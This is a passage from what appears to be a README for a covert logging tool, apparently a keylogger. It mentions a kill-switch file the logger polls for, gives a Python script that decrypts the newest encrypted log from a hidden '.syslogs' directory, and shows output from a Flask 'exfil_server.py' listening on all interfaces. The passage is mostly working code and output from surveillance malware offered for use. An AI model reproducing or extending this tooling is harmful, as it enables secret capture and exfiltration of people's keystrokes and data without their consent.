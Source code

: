 The logger checks for this file every 30 seconds and terminates if found.

---

### 🔓 Step 5: Decrypt Logs

```python
# decrypt_log.py
import os
from cryptography.fernet import Fernet

LOG_DIR = ".syslogs"

# Load encryption key
with open("encryption.key", "rb") as f:
    key = f.read()

fernet = Fernet(key)

# Get list of files in .syslogs sorted by modified time, newest first
files = sorted(
    (os.path.join(LOG_DIR, f) for f in os.listdir(LOG_DIR) if f.endswith(".bin")),
    key=os.path.getmtime,
    reverse=True
)

if not files:
    print("No log files found in .syslogs directory.")
    exit()

latest_file = files[0]
print(f"Decrypting file: {latest_file}")

with open(latest_file, "rb") as f:
    encrypted_data = f.read()

try:
    decrypted_data = fernet.decrypt(encrypted_data)
    print("Decrypted log content:")
    print(decrypted_data.decode())
except Exception as e:
    print(f"Error decrypting file: {e}")
```

---

## ✅ Sample Output

exfil_server.py Output Terminal
```bash
* Serving Flask app 'exfil_server'
* Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:5000
 * Running on http://12.0.0.2:5000
Press CTRL+C to quit
127.0.0.1 - - [11/Jun/2025 16:37:40] "GET / HTTP/1.1" 200 -
````

